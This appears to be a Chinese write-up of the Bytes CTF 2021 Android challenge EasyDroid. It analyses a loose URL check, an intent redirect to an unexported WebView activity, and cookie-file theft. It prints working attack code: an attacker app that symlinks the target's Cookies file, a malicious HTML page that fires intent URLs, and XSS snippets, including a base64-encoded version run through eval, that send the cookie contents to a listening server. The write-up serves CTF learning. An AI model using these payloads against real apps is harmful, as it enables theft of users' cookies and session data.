



# Bytes CTF 2021 EasyDroid 复现-先知社区

> **来源**: https://xz.aliyun.com/news/17354  
> **文章ID**: 17354

---

# Bytes CTF 2021 EasyDroid 复现

* 本人初学安卓，若文章内容存在问题，还请指正

## App 分析

* APP 版本为 Android 8.1

### AndroidManifest.xml 分析

存在一个导出 MainActivity 和非导出TestActivity 以及一个 Flag 接收器



### MainActivtiy

```
public class MainActivity extends AppCompatActivity {
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Uri data = getIntent().getData();
        if (data == null) {
            data = Uri.parse("http://app.toutiao.com/");
        }
        if (data.getAuthority().contains("toutiao.com") && data.getScheme().equals("http")) {
            WebView webView = new WebView(getApplicationContext());
            webView.setWebViewClient(new WebViewClient() { // from class: com.bytectf.easydroid.MainActivity.1
                @Override // android.webkit.WebViewClient
                public boolean shouldOverrideUrlLoading(WebView view, String url) {
                    Uri uri = Uri.parse(url);
                    if (uri.getScheme().equals("intent")) {
                        try {
                            MainActivity.this.startActivity(Intent.parseUri(url, 1));
                        } catch (URISyntaxException e) {
                            e.printStackTrace();
                        }
                        return true;
                    }
                    return super.shouldOverrideUrlLoading(view, url);
                }
            });
            setContentView(webView);
            webView.getSettings().setJavaScriptEnabled(true);
            webView.loadUrl(data.toString());
        }
    }
}
```

MainActivity 启动网址为 `toutiao.com` 结尾的 `webview` ，并且在 `shouldOverrideUrlLoading` 中会解析传入的协议, 如果协议开头为 Intent ，那么就会启动传入的 Intent ，由于 MainActivtiy 是导出的，因此恶意程序能够通过该活动启动的其他组件，MainActivtiy提供了 Intent 重定向的接口

由于该活动中对 URL 的检查并不严格，因此传入如下 URL 能够绕过检测，访问恶意网站 <http://toutiao.com@127.0.0.1:8080/easydroid.html>"

### TestActivtiy

该活动根据Intent 传入进来的 URL，直接启动URL的 webview 界面，配合上 MainActivtiy 中启动未导出组件的功能，恶意软件能够攻击该app，进而让该app访问恶意网站。由于启动 webView的时开启了`setJavaScriptEnabled` ，并且 setAllowFileAccess 默认开启，因此该活动启动的 webview 便是漏洞点所在

```
public class TestActivity extends Activity {
    @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        String url = getIntent().getStringExtra("url");
        WebView webView = new WebView(getApplicationContext());
        setContentView(webView);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl(url);
    }
}
```

### FlagReceiver

该接收器将获取的 FLag 保存到本地的 Cookie 文件夹中，由此知道本次攻击目标是 Cookie 文件

```
public class FlagReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String flag = intent.getStringExtra("flag");
        if (flag != null) {
            try {
                String flag2 = Base64.encodeToString(flag.getBytes("UTF-8"), 0);
                CookieManager cookieManager = CookieManager.getInstance();
                cookieManager.setCookie("https://tiktok.com/", "flag=" + flag2);
                Log.e("FlagReceiver", "received flag.");
            } catch (UnsupportedEncodingException e) {
                e.printStackTrace();
            }
        }
    }
}
```

通常情况下，app访问一个浏览器页面20-30秒，会保存网页的 Cookie 到手机如下文件中，所有网站Cookie信息以key:value方式保存在 Cookies 中

```
/data/data/<package>/web_view/Cookies
```

## 攻击思路

由于我们的目标是泄漏被攻击 app 目录下的 Cookie 文件信息，而在 [webView 常用漏洞中](#root/eLZTuO4GB4Qt/BYIHxmCTmkoZ/6GyMP5XjKV5q) 泄漏 Cookie 方法也就只有XSS攻击，因此很容易想到如下思路

1. 利用 MainActivity 对 URL 检测不全的漏洞，让 APP 访问恶意网站
2. 在恶意网站中将 xss 攻击脚本注入到目标程序的 Cookie 文件中
3. 在 Attack app 中利用符号链接的方法，将 `.html` 文件和目标程序的 Cookie 文件进行软链接
4. 在恶意网站执行 `.html` 文件，此时利用 xss 注入脚本，将整个 Cookie 数据泄漏出来

### Attack 代码

在 Attack app中启动 `com.bytectf.easydroid.MainActivity` 活动，传入绕过的URL检测的恶意界面

```
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.MainActivity");
        intent.setData(Uri.parse("http://toutiao.com@127.0.0.1:8080/easydroid.html"));
        startActivity(intent);
        symlink();
    }
    private String symlink() {
        try {
            String root = getApplicationInfo().dataDir;
            String symlink = root + "/symlink.html";
            String path = "/data/data/com.bytectf.easydroid/";
            String cookies = path + "/app_webview/Cookies";
            Runtime.getRuntime().exec("rm " + symlink).waitFor();
            Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();
            Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();
            return symlink;
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }
}
```

这里使用的恶意网站是本地 apach 搭建的，在 mac 上搭建思路如下, 由于mac 自带 apach 这里直接启动即可

```
sudo apachectl start
```

启动完成后，在本地`127.0.0.1:8080` 即可访问该服务



在 `/Library/WebServer/Documents/` 目录下存放恶意html文件，就能在mac的本地进行访问

```
➜  Documents ls
easydroid.html exp.html       get_data.json  get_data.xml   index.html.en
```

正在情况下在手机模拟器上访问 `localhost:8080/easydroid.html` 也能访问这个页面，但是我的就不行，因此我将mac 上的服务8080反向代理给手机模拟器，这样在模拟器中就能访问 `easydroid.html`

### 恶意 html 代码

恶意 html 代码做了两件事情

1. 启动存在漏洞TestActivity 活动，并让 app 访问带有 xss 注入脚本的网站，让目标app的Cookie文件中就保存XSS攻击脚本

> [!NOTE]  
> 当前的恶意 html 是由目标 app 启动的，通过 location.href 启动传入 URL ，安卓就会回调 `shouldOverrideUrlLoading`函数，解析当前 URL ，通过该方法能够启动存在漏洞TestActivity 活动

2 利用符号链接启动带有XSS攻击脚本的Cookie文件，该Cookie文件是链接到.html文件上，因此会去解析文件中的JS代码，进而将 Cookie 整个文件内容泄漏。

> [!NOTE]  
> XSS 攻击脚本
>
> 其实就是利用给Image().src属性赋值的时候，会去像这个地址自动发起 GET 请求，并且携带参数为泄漏出来的 Cookies 文件内容，其中就包含flag，XSS 注入攻击还可以被一下脚本替代，因为到这里实现了任意js代码执行，怎么发送flag都行
>
> 其实就是利用 `XMLHttpRequest` 将当前 Cookie 文件内容发送给指定服务器

```
new Image().src = "http://127.0.0.1:8080/?cookie=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);
```

```
xhr=new XMLHttpRequest(); xhr.open('POST', 'http://127.0.0.1:8080', true); 
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); 
xhr.send('html=' + encodeURIComponent(document.documentElement.outerHTML));
```

`easydroid.html`文件内容如下

```
hahaha1

<script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms))
    }    
    sleep(1000).then(() => {
        location.href = "intent:#Intent;component=com.bytectf.easydroid/.TestActivity;S.url=http%3A%2F%2F127.0.0.1:8080%2Fexp.html;end";
        sleep(40000).then(() => {
            location.href = "intent:#Intent;component=com.bytectf.easydroid/.TestActivity;S.url=file%3A%2F%2F%2Fdata%2Fdata%2Fcom.example.attack_easydrod%2Fsymlink.html;end";
        })
    })
</script>
```

`exp.xml`文件内容如下

```
<h1>injected cookie with xss</h1>
<script>document.cookie = "x = ''"</script>
```

利用 atob base64解码，再通过 eval 方法执行解码后的 JS 代码，JS代码就是上面的XSS攻击脚本

```
In [1]: import base64

In [2]: data = "bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly8xMjcuMC4wLjE6ODA4MC8/Y29va2llPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwpOwo="

In [3]: base64.b64decode(data)
Out[3]: b'new Image().src = "http://127.0.0.1:8080/?cookie=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);
'
```

## 总结

这道题点考察点如下

1. URL 检测不严格，进而能够访问恶意web网页
2. Intent 重定向启动带有漏洞的TestActivity
3. 利用 webview 组件实现XSS攻击，进而获取flag

而漏洞点如下

1. MainActivity 中的 webview 组件未严格检查访问的URL是否为指定
2. TestView 中启动 webview 组件同时开启 `setAllowFileAccess` 和 `setJavaScriptEnabled`的情况下，并未严格限制 URL ，而是直接访问该 URL
